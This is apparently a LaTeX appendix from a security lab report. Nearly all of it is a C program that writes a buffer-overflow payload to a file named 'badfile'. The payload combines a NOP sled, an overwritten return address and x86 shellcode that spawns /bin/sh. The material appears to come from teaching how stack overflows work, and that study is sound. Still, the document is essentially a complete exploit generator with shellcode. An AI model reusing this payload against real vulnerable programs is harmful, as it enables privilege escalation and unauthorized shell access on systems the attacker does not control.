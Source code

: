 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
\begin{appendices}
\begin{lstlisting}
/* A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

char shellcode[]=
"\x31\xc0"      /* xorl  %eax,%eax   */
"\x50"          /* pushl %eax        */
"\x68""//sh"    /* pushl $0x68732f2f */
"\x68""/bin"    /* pushl $0x6e69622f */
"\x89\xe3"      /* movl  %esp,%ebx   */
"\x50"          /* pushl %eax        */
"\x53"          /* pushl %ebx        */
"\x89\xe1"      /* movl  %esp,%ecx   */
"\x99"          /* cdql              */
"\xb0\x0b"      /* movb  $0x0b,%al   */
"\xcd\x80"      /* int   $0x80       */
;

void main(int argc, char **argv)
{  
  char buffer[517];
  FILE *badfile;
  long fcP;
  int buffer_size, shell_code_size;
  
  buffer_size = sizeof(buffer);
  shell_code_size = sizeof(shellcode);
  
  /* Initialize buffer with 0x90 (NOP instruction) */
  memset(&buffer, 0x90, 517);
  
  /* You need to fill the buffer with appropriate contents here */
  printf("Size of shellcode: %d\n", sizeof(shellcode));
  
  /* Print stack pointer */
  fcP = &buffer;
  
  /* Make sure is multiple of 4 */ 
  while(fcP % 4 != 0) {
    fcP += 1;
  }
  
  printf ("Using Stack pointer at address: %x\n", fcP);
  printf ("Buffer size: %d, shell code size: %d\n", buffer_size, shell_code_size);
  
  /* Compute how far we can palce shell code, we want it towards the end of buffer */
  long address_to_copy_to = fcP + buffer_size - 1 - shell_code_size;
  printf ("I will start writing to %08x\n", address_to_copy_to);
  
  /* We use address of buffer as reference, but we want to jump a bit more into the stack, yet not too far */
  fcP += 80;
  
  /* Place the address we want to in a position that would overwrite return address (16 bytes into stack) */
  long addr = fcP;
  long *ptr = (long*)(buffer + 16);
  *(ptr) = addr;
  
  /* Copy shellcode */
  memcpy(address_to_copy_to, shellcode, shell_code_size);
  
  /* Save the contents to the file "badfile" */
  badfile = fopen("./badfile", "w");
  fwrite(buffer, 517, 1, badfile);
  fclose(badfile);
}
\end{lstlisting}


\end{appendices}
\end{document}
